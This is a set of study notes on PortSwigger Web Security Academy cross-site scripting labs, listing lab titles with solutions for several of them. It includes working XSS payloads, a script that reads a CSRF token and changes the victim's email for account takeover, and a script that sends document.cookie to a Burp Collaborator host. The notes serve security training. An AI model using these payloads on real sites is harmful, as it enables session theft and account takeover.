 # Cross-Site Scripting

## Apprentice
- Reflected XSS into HTML context with nothing encoded
- Stored XSS into HTML context with nothing encoded
- DOM XSS in document.write sink using source location.search
- DOM XSS in innerHTML sink using source location.search
- DOM XSS in jQuery anchor href attribute sink using location.search source
- DOM XSS in jQuery selector sink using a hashchange event
- Reflected XSS into attribute with angle brackets HTML-encoded
- Stored XSS into anchor href attribute with double quotes HTML-encoded
- Reflected XSS into a JavaScript string with angle brackets HTML encoded

## Practitioner
- DOM XSS in document.write sink using source location.search inside a select element
    - Inject malicious javascript into the storeId query parameter to escape from the string. URL: https://0ac0003b03854101851caa5f00c50027.web-security-academy.net/product?productId=1&storeId=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E
- DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
- Reflected DOM XSS
- Stored DOM XSS
- Reflected XSS into HTML context with most tags and attributes blocked
- Reflected XSS into HTML context with all tags blocked except custom ones
    - Used the Burp XSS cheat sheet payloads to determine that \<SVG> is not blocked, and in particular the
    \<animatetransform> tag. Used intruder to discover that the onbegin event is not blocked. Inserted the URL-encoded payload into the URL as the search query parameter: %22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E 
- Reflected XSS in canonical link tag
- Reflected XSS into a JavaScript string with single quote and backslash escaped
    - The search query payload is interpolated directly in a script. Break out of the string by using this payload: \</script><script>alert(1)</script>
- Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
    - Break out of the string using a backslash and single quote, since the backslash is not escaped. Payload: \'-alert();\\\
- Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
    - use \&apos; as the user's website to break out of the string and trigger alert. Payload: http://foo?&apos;-alert(1)-&apos;
- Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
    - Take advantage of the template literal to use string interpolation. Payload: ${alert()}
- Exploiting cross-site scripting to steal cookies
    - Uses the Burp Collaborator feature (professional) as an external server to send the cookie to. You can take advantage of the fact that HTML tags are not escaped to inject a script into the comment input.
- Exploiting XSS to bypass CSRF defenses
    - Take advantage of the lack of input validation in the comment input to inject a script which steals the csrf token and includes it in a request to change the user's email when the page loads --> account takeover. Payload: \<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

## Exploiting XSS to steal cookies
There is an XSS vulnerability in the comments field. 
We can inject a tag such as a script or malicious Javascript to efxiltrate the cookie to a C2 server.
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
``` 
